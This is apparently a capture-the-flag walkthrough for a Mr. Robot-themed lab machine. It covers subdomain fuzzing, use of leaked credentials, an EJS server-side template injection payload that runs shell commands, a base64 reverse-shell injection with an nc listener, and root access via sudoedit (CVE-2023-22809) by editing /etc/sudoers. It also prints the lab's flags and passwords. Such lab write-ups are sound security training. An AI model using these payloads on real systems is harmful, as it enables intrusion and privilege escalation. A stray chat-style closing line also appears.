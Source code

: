 ```yaml
---

## 🧠 Summary

This room is based on Mr. Robot and explores topics like virtual host enumeration, login panel access, SSTI exploitation in EJS templates, and privilege escalation through a sudoedit vulnerability (CVE-2023-22809).  
We’ll go from web enumeration all the way to getting root via environment variable abuse.

---
```


## 🔍 Enumeration

Run a full TCP scan:

```bash
nmap -p- -T4 -A MACHINE_IP -vvv
````

### Open Ports

* **22/tcp** – SSH
* **80/tcp** – HTTP

![Screenshot From 2025-05-13 11-02-44](https://github.com/user-attachments/assets/7df9d6ec-91ba-485a-9aac-ecbc5703956e)

---

## 🌐 Web Enumeration

Check the page at `http://cyprusbank.thm`. Not much useful there.

Use `ffuf` for subdomain fuzzing:

```bash
ffuf -u http://cyprusbank.thm/ -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

**Interesting findings:**

* `admin.cyprusbank.thm` – Returns **302 Redirect**

Add this to `/etc/hosts`:

```
MACHINE_IP  admin.cyprusbank.thm
```

![Screenshot From 2025-05-13 11-12-08](https://github.com/user-attachments/assets/88928e06-1c80-411c-bb28-c2953469b6d3)

---

## 🔑 Login Panel

Visit: `http://admin.cyprusbank.thm`

Try the given credentials:

* **Username:** Olivia Cortez
* **Password:** olivi8

✅ Success! You’re logged in.

Check the **Messages** tab:
URL looks like:

```
http://admin.cyprusbank.thm/messages/?c=5
```

Try manipulating the `?c=5` parameter to `?c=0`.

![Screenshot From 2025-05-13 11-15-08](https://github.com/user-attachments/assets/bf8013f3-0fe5-4ec8-b2aa-d8337a8f5000)

![Screenshot From 2025-05-13 11-22-08](https://github.com/user-attachments/assets/ecc6bfcf-e010-43d2-b86c-99d1e096c167)

You’ll find:

> **Admin Username:** Gayle Bev
> 
> **Password:** `p~]P5!6;rs558:q`

---

## ☎️ Find Tyrell's Phone Number

After logging in as **Gayle Bev**, you’ll find a phone number:

**Answer:** `842-029-5701`

---

## 🔥 XSS + SSTI Discovery

In **Settings**, you can add a user and see the password reflected back – likely a candidate for **XSS** or **SSTI**.

Using Burp Suite to intercept the POST request, we see evidence of **EJS** templates.

![Screenshot From 2025-05-13 11-30-43](https://github.com/user-attachments/assets/14169de9-15de-49b3-9bb8-648c480761bf)

---

## ⚙️ Exploiting EJS Server-Side Template Injection

### Resource:

[https://eslam.io/posts/ejs-server-side-template-injection-rce](https://eslam.io/posts/ejs-server-side-template-injection-rce)

Use Burp Suite with the payload:

```bash
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').exec('COMMAND')
```

![Screenshot From 2025-05-13 11-58-25](https://github.com/user-attachments/assets/5f57b7db-7321-4546-a1ad-6a3542471668)

![Screenshot From 2025-05-13 11-58-57](https://github.com/user-attachments/assets/38bb71ae-f573-4719-8497-6211a739da84)


### Reverse Shell Payload (Base64-encoded BusyBox)

Set up a listener:

```bash
nc -lnvp 4445
```

Inject payload:

```bash
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo <REPLACE WITH YOURS> | base64 -d | bash"');//
```

![Screenshot From 2025-05-13 12-06-07](https://github.com/user-attachments/assets/28d495b6-5ed5-40b6-a929-6facacc36e64)

![Screenshot From 2025-05-13 12-15-22](https://github.com/user-attachments/assets/f9703a21-5bc3-4e78-936e-832a9c16b0b7)


Get a shell and stabilize:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![Screenshot From 2025-05-13 12-21-34](https://github.com/user-attachments/assets/bf5b3fb7-8d4e-4288-9f5e-c093743a4946)


---

## 🏁 User Flag

> Location: `/home/web/user.txt`

**Flag:**

```
THM{4lways_upd4te_uR_d3p3nd3nc!3s}
```

---

## 🔼 Privilege Escalation (CVE-2023-22809)

Run:

```bash
sudo -l
```

Findings:

```bash
(web) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Exploit via `EDITOR` environment variable:

```bash
export EDITOR='nano -- /etc/sudoers'
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Add this line:

```bash
web ALL=(ALL) NOPASSWD: ALL
```
![image](https://github.com/user-attachments/assets/e48f3828-8ad2-46ac-a0a9-2b4dd0d4ebfb)

```
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
    (ALL) NOPASSWD: ALL
```

Get root:

```bash
sudo su -
```

---

## 🧾 Root Flag

> Location: `/root/root.txt`

**Flag:**

```
THM{4nd_uR_p4ck4g3s}
```

---

## ✅ Conclusion

* Enumerated virtual hosts with ffuf
* Found and used user and admin credentials
* Exploited SSTI in EJS templates for RCE
* Gained root via CVE-2023-22809 (sudoedit bypass)

**Lesson:** Always validate template inputs and keep your packages up to date.

```

Let me know if you want me to create the full file and upload it for GitHub directly.
```
